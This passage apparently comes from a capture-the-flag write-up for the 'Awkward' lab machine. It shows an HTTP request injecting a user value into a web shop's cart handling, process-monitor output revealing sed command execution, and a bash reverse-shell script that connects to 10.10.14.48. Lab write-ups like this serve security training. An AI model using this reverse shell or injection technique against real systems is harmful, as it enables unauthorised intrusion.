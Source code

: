 We can inject the user_id, avoiding the filter of bad characters that tries to stop us doing command injection:

```
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://store.hat-valley.htb/shop.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 49
Origin: http://store.hat-valley.htb
DNT: 1
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close

item=1&user=my_cool_injected_user&action=add_item
```

```bash
bean@awkward:/var/www/store$ ls -la cart/
total 12
drwxrwxrwx 2 root     root     4096 Feb  4 20:24 .
drwxr-xr-x 9 root     root     4096 Oct  6 01:35 ..
-rw-r--r-- 1 www-data www-data   96 Feb  4 20:24 my_cool_injected_user

```

This didn't really lead anywhere, but next, if we run pspy (process spy), add and remove items from cart as normal & expected user behaviour, we see:

```
2023/02/04 20:49:22 CMD: UID=33   PID=47950  | tail -1 
2023/02/04 20:49:22 CMD: UID=33   PID=47949  | head -2 /var/www/store/product-details/1.txt 
2023/02/04 20:49:22 CMD: UID=33   PID=47948  | sh -c head -2 /var/www/store/product-details/1.txt | tail -1 >> /var/www/store/cart/59ab-bdec-f4c-c29c 
2023/02/04 20:49:41 CMD: UID=33   PID=47951  | sh -c sed -i '/item_id=1/d' /var/www/store/cart/59ab-bdec-f4c-c29c 


```

So the item (id = 1) is added to user cart, then `sed` is used to remove it from the cart.  At this point, I went straight to [GTFOBins](https://gtfobins.github.io/gtfobins/sed/), to look at `sed` command injection.  I initially tried the `-n` argument, but this didn't seem to work.  Checking the `sed` man page, the `-e` argument allows us to specify a script expression to execute.

We write a reverse shell into `/dev/shm/test.sh`:

```bash
bean@awkward:/dev/shm$ cat test.sh 
#!/usr/bin/bash
bash -i >& /dev/tcp/10.10.14.48/3322 0>&1
```
